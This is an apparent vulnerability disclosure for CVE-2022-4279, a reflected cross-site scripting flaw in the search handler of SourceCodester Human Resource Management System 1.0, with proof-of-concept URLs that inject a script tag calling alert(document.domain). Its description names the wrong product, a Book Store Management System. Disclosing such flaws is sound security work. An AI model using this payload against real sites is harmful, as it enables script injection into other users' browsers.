 # [CVE-2022-4279](https://www.cve.org/CVERecord?id=CVE-2022-4279)

SourceCodester Human Resource Management System 1.0 /hrm/employeeview.php Cross Site Scripting

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A Reflected cross-site scripting (XSS) vulnerability in /hrm/employeeview.php with search handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeview.php

# Proof of Concept:

Find an injection

http://localhost/employeeview.php?searchview=Submit+Query&search="tusnj"#

![](images/xss-fuzzing.png)

XSS Exploit

http://localhost/hrm/employeeview.php?searchview=Submit+Query&search=sss%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E%3Cinput

![](images/xss-confirm.png)